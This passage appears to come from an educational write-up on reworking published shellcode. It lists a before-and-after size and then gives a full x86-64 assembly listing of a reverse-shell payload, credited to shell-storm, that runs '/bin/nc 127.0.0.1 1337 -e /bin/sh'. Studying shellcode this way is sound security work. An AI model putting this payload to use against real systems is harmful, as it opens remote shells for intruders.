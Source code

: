 Original size: 131
Final size: 187

Increment: 43%

#### Reverse-shell Shellcode (Shellcode #3)

For the final shellcode, I have chosen to use a reverse-shell that arranges a connection towards the localhost on port 1337. It can be found [here](http://shell-storm.org/shellcode/files/shellcode-823.php).

###### Original code:

```term
xor    	rdx,rdx
mov 	rdi,0x636e2f6e69622fff
shr	rdi,0x08
push 	rdi
mov 	rdi,rsp

mov	rcx,0x68732f6e69622fff
shr	rcx,0x08
push 	rcx
mov	rcx,rsp

mov     rbx,0x652dffffffffffff
shr	rbx,0x30
push	rbx
mov	rbx,rsp

mov	r10,0x37333331ffffffff
shr 	r10,0x20
push 	r10
mov	r10,rsp

jmp short ip
continue:
pop 	r9

push	rdx  ;push NULL
push 	rcx  ;push address of 'bin/sh'
push	rbx  ;push address of '-e'
push	r10  ;push address of '1337'
push	r9   ;push address of 'ip'
push 	rdi  ;push address of '/bin/nc'

mov    	rsi,rsp
mov    	al,59
syscall


ip:
	call  continue
	db "127.0.0.1"
```
